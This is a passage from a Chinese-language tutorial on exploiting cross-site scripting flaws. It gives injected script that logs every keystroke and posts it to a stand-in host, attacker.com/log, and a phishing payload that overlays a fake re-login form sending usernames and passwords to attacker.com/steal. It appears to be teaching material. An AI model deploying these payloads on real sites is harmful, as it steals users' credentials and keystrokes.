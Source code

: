 
#### 步骤 2：捕捉键盘事件

上述脚本执行以下操作：

- 创建一个隐藏的 `iframe`，以避免用户察觉。
- 在 `iframe` 中注入脚本，监听 `document.onkeypress` 事件。
- 当用户按下键盘时，捕捉按键信息。
- 将按键信息发送到攻击者的服务器（`https://attacker.com/log`）。

#### 步骤 3：接收和处理数据

攻击者的服务器接收到包含按键信息的请求后，可以：

- 记录用户的按键序列。
- 分析按键信息，提取敏感数据，如密码、信用卡号码等。

### 3. 具体示例

假设目标网站有一个 XSS 漏洞，攻击者可以注入以下脚本：

```html
<script>
  // 监听键盘事件
  document.onkeydown = function(e) {
    var key = e.key || String.fromCharCode(e.keyCode || e.which);
    // 发送按键信息到攻击者的服务器
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'https://attacker.com/log', true);
    xhr.setRequestHeader('Content-Type', 'application/json');
    xhr.send(JSON.stringify({key: key, timestamp: Date.now()}));
  };
</script>
```

**说明**：
- 该脚本监听 `document.onkeydown` 事件，当用户按下键盘时，捕捉按键信息。
- 将按键信息发送到攻击者的服务器。



# 发起其他攻击
利用 XSS（跨站脚本攻击）漏洞，攻击者不仅可以窃取用户信息、劫持会话或记录键盘输入，还可以发起其他多种攻击。以下是一些常见的利用 XSS 发起其他攻击的方式：

### 1. **网络钓鱼攻击（Phishing）**

**描述**：
攻击者通过 XSS 漏洞在目标网站上注入恶意脚本，伪造登录表单或提示信息，诱导用户输入敏感信息，如用户名、密码、信用卡信息等。

**示例**：
```html
<script>
  // 创建一个伪造的登录表单
  var loginForm = document.createElement('div');
  loginForm.innerHTML = `
    <form action="https://attacker.com/steal" method="POST">
      <h2>请重新登录以继续</h2>
      <input type="text" name="username" placeholder="用户名" required>
      <input type="password" name="password" placeholder="密码" required>
      <button type="submit">登录</button>
    </form>
  `;
  document.body.appendChild(loginForm);
</script>
```
